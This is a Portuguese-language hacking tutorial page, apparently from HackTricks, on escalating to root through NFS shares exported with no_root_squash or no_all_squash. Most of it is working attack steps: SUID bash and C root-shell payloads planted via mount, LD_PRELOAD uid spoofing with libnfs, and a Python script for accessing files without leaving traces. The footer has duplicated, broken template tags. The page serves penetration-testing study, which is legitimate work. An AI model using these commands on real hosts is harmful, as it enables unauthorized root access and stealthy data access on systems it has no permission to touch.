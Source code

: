 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


Leia o _ **/etc/exports** _ arquivo, se você encontrar algum diretório que está configurado como **no\_root\_squash**, então você pode **acessar** ele **como um cliente** e **escrever dentro** daquele diretório **como** se você fosse o **root** local da máquina.

**no\_root\_squash**: Esta opção basicamente dá autoridade ao usuário root no cliente para acessar arquivos no servidor NFS como root. E isso pode levar a sérias implicações de segurança.

**no\_all\_squash:** Isso é semelhante à opção **no\_root\_squash**, mas se aplica a **usuários não-root**. Imagine, você tem um shell como usuário nobody; verificou o arquivo /etc/exports; a opção no\_all\_squash está presente; verifique o arquivo /etc/passwd; emule um usuário não-root; crie um arquivo suid como esse usuário (montando usando nfs). Execute o suid como usuário nobody e torne-se um usuário diferente.

# Escalada de Privilégios

## Exploit Remoto

Se você encontrou essa vulnerabilidade, você pode explorá-la:

* **Montando aquele diretório** em uma máquina cliente, e **como root copiando** dentro da pasta montada o binário **/bin/bash** e dando a ele direitos **SUID**, e **executando a partir da máquina da vítima** aquele binário bash.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Montando esse diretório** em uma máquina cliente, e **como root copiando** dentro da pasta montada nosso payload compilado que irá abusar da permissão SUID, dando a ele direitos **SUID**, e **executando a partir da máquina da vítima** esse binário (você pode encontrar aqui alguns [payloads C SUID](payloads-to-execute.md#c)).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Exploit Local

{% hint style="info" %}
Note que se você puder criar um **túnel da sua máquina para a máquina da vítima, você ainda pode usar a versão Remota para explorar essa escalada de privilégio tunelando as portas necessárias**.\
O seguinte truque é caso o arquivo `/etc/exports` **indique um IP**. Nesse caso, você **não poderá usar** em nenhum caso o **exploit remoto** e precisará **abusar desse truque**.\
Outro requisito necessário para que o exploit funcione é que **a exportação dentro de `/etc/export`** **deve estar usando a flag `insecure`**.\
\--_Não tenho certeza se, caso `/etc/export` esteja indicando um endereço IP, esse truque funcionará_--
{% endhint %}

## Informações Básicas

O cenário envolve explorar um compartilhamento NFS montado em uma máquina local, aproveitando uma falha na especificação do NFSv3 que permite ao cliente especificar seu uid/gid, potencialmente permitindo acesso não autorizado. A exploração envolve o uso de [libnfs](https://github.com/sahlberg/libnfs), uma biblioteca que permite a falsificação de chamadas RPC NFS.

### Compilando a Biblioteca

Os passos de compilação da biblioteca podem exigir ajustes com base na versão do kernel. Neste caso específico, as chamadas de sistema fallocate foram comentadas. O processo de compilação envolve os seguintes comandos:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Realizando o Exploit

O exploit envolve a criação de um programa C simples (`pwn.c`) que eleva privilégios para root e, em seguida, executa um shell. O programa é compilado e o binário resultante (`a.out`) é colocado no compartilhamento com suid root, usando `ld_nfs.so` para falsificar o uid nas chamadas RPC:

1. **Compile o código do exploit:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Coloque o exploit no compartilhamento e modifique suas permissões falsificando o uid:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Execute o exploit para obter privilégios de root:**
```bash
/mnt/share/a.out
#root
```

## Bônus: NFShell para Acesso a Arquivos de Forma Discreta
Uma vez obtido o acesso root, para interagir com o compartilhamento NFS sem mudar a propriedade (para evitar deixar rastros), um script Python (nfsh.py) é usado. Este script ajusta o uid para corresponder ao do arquivo sendo acessado, permitindo a interação com arquivos no compartilhamento sem problemas de permissão:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Executar como:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
